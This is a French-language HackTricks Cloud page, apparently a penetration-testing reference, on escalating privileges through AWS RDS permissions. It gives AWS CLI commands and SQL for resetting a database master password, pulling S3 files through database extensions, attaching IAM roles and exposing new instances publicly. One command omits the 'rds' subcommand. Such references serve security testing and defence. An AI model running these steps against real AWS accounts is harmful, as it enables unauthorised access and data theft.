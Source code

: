 # AWS - Élévation de privilèges RDS

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

## RDS - Service de base de données relationnelle

Pour plus d'informations sur RDS, consultez :

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Avec cette autorisation, un attaquant peut **modifier le mot de passe de l'utilisateur principal** et le login à l'intérieur de la base de données :
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Vous devrez être capable de **contacter la base de données** (elles sont généralement accessibles uniquement depuis les réseaux internes).
{% endhint %}

**Impact potentiel :** Trouver des informations sensibles à l'intérieur des bases de données.

### rds-db:connect

Selon la [**documentation**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), un utilisateur ayant cette autorisation pourrait se connecter à l'instance de la base de données.

### Abus des autorisations IAM du rôle RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Si en exécutant **`SELECT datname FROM pg_database;`** vous trouvez une base de données appelée **`rdsadmin`**, vous saurez que vous êtes à l'intérieur d'une **base de données AWS postgresql**.
{% endhint %}

Tout d'abord, vous pouvez vérifier si cette base de données a été utilisée pour accéder à un autre service AWS. Vous pourriez vérifier cela en examinant les extensions installées :
```sql
SELECT * FROM pg_extension;
```
Si vous trouvez quelque chose comme **`aws_s3`**, vous pouvez supposer que cette base de données a **un certain type d'accès sur S3** (il existe d'autres extensions telles que **`aws_ml`** et **`aws_lambda`**).

De plus, si vous avez les autorisations pour exécuter **`aws rds describe-db-clusters`**, vous pouvez voir si le **cluster a un rôle IAM attaché** dans le champ **`AssociatedRoles`**. Si c'est le cas, vous pouvez supposer que la base de données a été **préparée pour accéder à d'autres services AWS**. En fonction du **nom du rôle** (ou si vous pouvez obtenir les **autorisations** du rôle), vous pourriez **deviner** quels sont les accès supplémentaires dont dispose la base de données.

Maintenant, pour **lire un fichier à l'intérieur d'un bucket**, vous devez connaître le chemin complet. Vous pouvez le lire avec :
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Si vous aviez **des identifiants AWS bruts**, vous pourriez également les utiliser pour accéder aux données S3 avec :
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **n'a pas besoin de modifier une variable de groupe de paramètres** pour pouvoir accéder à S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
À l'intérieur d'un mysql, si vous exécutez la requête **`SELECT User, Host FROM mysql.user;`** et qu'il y a un utilisateur appelé **`rdsadmin`**, vous pouvez supposer que vous êtes à l'intérieur d'une **base de données AWS RDS mysql**.
{% endhint %}

À l'intérieur du mysql, exécutez **`show variables;`** et si des variables telles que **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** ont des valeurs, vous pouvez supposer que la base de données est prête à accéder aux données S3.

De plus, si vous avez les autorisations pour exécuter **`aws rds describe-db-clusters`**, vous pouvez vérifier si le cluster a un **rôle associé**, ce qui signifie généralement un accès aux services AWS).

Maintenant, pour **lire un fichier à l'intérieur d'un bucket**, vous devez connaître le chemin complet. Vous pouvez le lire avec:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Un attaquant avec les autorisations `rds:AddRoleToDBCluster` et `iam:PassRole` peut **ajouter un rôle spécifié à une instance RDS existante**. Cela pourrait permettre à l'attaquant d'**accéder à des données sensibles** ou de modifier les données dans l'instance.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Impact potentiel** : Accès à des données sensibles ou modifications non autorisées des données dans l'instance RDS.\
Notez que certaines bases de données nécessitent des configurations supplémentaires telles que Mysql, qui doit spécifier le rôle ARN dans les groupes de paramètres également.

### `rds:CreateDBInstance`

Rien qu'avec cette autorisation, un attaquant pourrait créer une **nouvelle instance au sein d'un cluster** qui existe déjà et a un **rôle IAM** attaché. Il ne pourra pas changer le mot de passe de l'utilisateur principal, mais il pourrait exposer la nouvelle instance de base de données à Internet :
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Un attaquant avec les autorisations `rds:CreateDBInstance` et `iam:PassRole` peut **créer une nouvelle instance RDS avec un rôle spécifié attaché**. L'attaquant peut ensuite potentiellement **accéder à des données sensibles** ou modifier les données dans l'instance.

{% hint style="warning" %}
Certains prérequis du rôle/profil d'instance à attacher (de [**ici**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Le profil doit exister dans votre compte.
* Le profil doit avoir un rôle IAM que Amazon EC2 a l'autorisation d'assumer.
* Le nom du profil d'instance et le nom du rôle IAM associé doivent commencer par le préfixe `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Impact potentiel**: Accès à des données sensibles ou modifications non autorisées des données dans l'instance RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Un attaquant avec les autorisations `rds:AddRoleToDBInstance` et `iam:PassRole` peut **ajouter un rôle spécifié à une instance RDS existante**. Cela pourrait permettre à l'attaquant d'**accéder à des données sensibles** ou de modifier les données dans l'instance.

{% hint style="warning" %}
L'instance de la base de données doit être en dehors d'un cluster pour cela.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Impact potentiel**: Accès à des données sensibles ou modifications non autorisées des données dans l'instance RDS.

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert de l'équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks:

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
